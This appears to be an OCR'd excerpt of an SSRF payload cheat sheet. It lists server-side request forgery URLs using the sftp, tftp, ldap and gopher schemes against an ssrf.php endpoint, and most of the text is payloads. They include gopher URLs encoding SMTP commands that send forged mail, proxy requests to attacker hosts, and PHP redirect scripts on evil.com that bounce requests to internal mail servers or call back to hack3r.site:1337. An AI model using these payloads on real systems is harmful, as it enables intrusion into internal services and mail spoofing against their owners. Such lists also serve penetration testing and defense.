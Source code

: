 [ssrf.php?url=sftp://evil.com:11111/](.)

- TFTP
Trivial File Transfer Protocol, works over UDP

[ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET](.)

- LDAP
Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

ssrf.php?url=ldap://localhost:11211/%0astats%0aquit

- Gopher

```
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH
You didn't say the magic word !
.
QUIT
Gopher HTTP
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
Gopher SMTP — Back connect to 1337
Content of evil.com/redirect.php:
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>
Now query it.
https://example.com/?q=http://evil.com/redirect.php.
Gopher SMTP — send a mail
Content of evil.com/redirect.php:
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );
        $payload = implode('%0A', $commands);
        header('Location: gopher://0:25/_'.$payload);
?>
```

